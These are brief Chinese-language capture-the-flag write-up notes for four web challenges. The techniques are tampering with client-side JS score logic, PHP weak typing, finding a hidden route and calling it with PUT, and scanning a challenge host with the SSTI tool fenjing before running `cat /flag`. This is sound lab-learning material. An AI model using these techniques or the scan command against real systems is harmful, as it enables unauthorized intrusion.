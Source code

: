 - # hate eat snake
	- js源码分析
	- 只要修改分数判断函数即可修改分数，拿到flag
- # 受不了一点
	- php经典弱类型
	- payload
		- ![Screenshot_2023-04-16_10-31-00.png](../assets/Screenshot_2023-04-16_10-31-00_1681612301122_0.png)
- # EZ WEB
	- 查看主页源码，看见`/src`
	- 查看`/src`，拿到app.py
	- 查看app.py，看到flag的隐藏URI
	- 使用`PUT`访问URI, 得到flag
- # <ez ze>
	- `pip install fenjing`
	- `python -m fenjing scan --url http://node6.anna.nssctf.cn:28437`
	- 然后执行`cat /flag`即可